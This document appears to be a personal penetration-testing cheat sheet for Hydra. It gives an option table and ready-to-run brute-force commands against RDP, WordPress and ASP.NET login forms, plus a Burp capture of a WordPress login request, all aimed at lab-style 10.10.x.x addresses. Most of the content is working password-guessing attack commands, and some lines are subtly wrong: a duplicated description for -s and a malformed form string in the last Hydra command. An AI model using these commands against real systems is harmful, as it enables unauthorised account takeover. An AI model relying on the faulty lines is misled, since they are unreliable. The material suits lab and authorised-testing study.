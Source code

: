 # Hydra

| Option            | Explanation                                                   |
| ----------------- | ------------------------------------------------------------- |
| `-l username`     | Provide the login name                                        |
| `-P WordList.txt` | Specify the password list to use                              |
| `server service`  | Set the server address and service to attack                  |
| `-s PORT`         | Set the server address and service to attack                  |
| `-V` or `-vV`     | Show the username and password combinations being tried       |
| `-d`              | Display debugging output if the verbose output is not helping | 

| Command                                                                                                                                         | Description                                                                                                                                                        |
| ----------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `hydra -P <wordlist> -v <ip> <protocol>`                                                                                                        | Brute force against a protocol of your choice                                                                                                                      |
| `hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol>`                                                                  | You can use Hydra to bruteforce usernames as well as passwords. It will loop through every combination in your lists. (-vV = verbose mode, showing login attempts) |
| `hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>`                                                                                       | Attack a Windows Remote Desktop with a password list.                                                                                                              |
| `hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' ` | Craft a more specific request for Hydra to brute force.                                                                                                            | 

Craft a more specific request for Hydra to brute force.

```shell
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form
```

```shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.13.215 http-form-post "/Account/login.aspx?ReturnURL=admin:__VIEWSTATE=Q3C6t5UR5WbecqI6RxFVaHu2Jtr1TdsBm55dod6%2BSIHxT0kxMBXn8wPbUnML9Vy9uRcSdloliGhTiMXdg3L7dnVvby02BPayOuD6c2LVg%2FU1c1yfSmFi5O6NlaTJYr68DyAXNg6D0j2asLCrpbH%2FWtzIy%2BZc3SUPCjeyLjkOGGAvF%2BTu&__EVENTVALIDATION=v4fE3cbsejLdoruZ%2FnmnsQwMup0S0RVxnZgjAleWBCxzueQe6GQdUCeTG2i7uhPOvsZLXXydTOvEA2CVgd1vzxHIeYpzSSUxXjRSmXxYMBjDiqZ%2BE3y8DMbAC4KwudESlYVM2xBlpPHOe5utRfzqUDFKO5Df4kWeOvLVLRLBuTxZAlxu&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" 
```

WordPress - Burp
```php
POST /wp-login.php HTTP/1.1

Host: 10.10.114.27

log=§admin§&pwd=§admin§&wp-submit=§Log+In§&redirect_to=§https%3A%2F%2F10.10.114.27%2Fwp-admin%2F§&testcookie=§1§
```

WordPress - Hydra input
```shell
hydra -L fsocity.dic -p test 10.10.114.27 http-post-form "/wp-login.php:log=^USER^&pwd^PWD^:Invalid username" -t 30

```

#tools #hydra